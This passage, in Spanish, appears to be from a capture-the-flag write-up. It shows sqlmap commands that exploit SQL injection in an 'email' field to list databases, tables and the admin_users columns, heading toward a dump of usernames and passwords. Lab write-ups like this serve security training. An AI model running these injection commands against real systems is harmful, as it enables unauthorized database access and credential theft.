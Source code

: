 Primero vamos a ver las bases de datos.

```bash
sqlmap -r $(pwd)/request -p email --level 5 --risk 3 --batch --dbs
```

De aquí la de interés sería `usage_blog`.

```bash
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

Ahora vemos sus tablas.

```bash
sqlmap -r $(pwd)/request -p email --level 5 --risk 3 --batch -D usage_blog --tables
```

La tabla `admin_users` se ve ineteresante.

```bash
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
```

Vamos a ver las columnas.

```bash
sqlmap -r $(pwd)/request -p email --level 5 --risk 3 --technique=B --batch -D usage_blog -T admin_users --columns
```

Vemos `username` y `password` que sería lo interesante, así que vamos a dumpear eso.

```bash
Database: usage_blog
Table: admin_users
[8 columns]
+----------------+
| Column         |
+----------------+
| name           |
| avatar         |
| created_at     |
| id             |
| password       |
| remember_token |
| updated_at     |
| username       |
+----------------+
```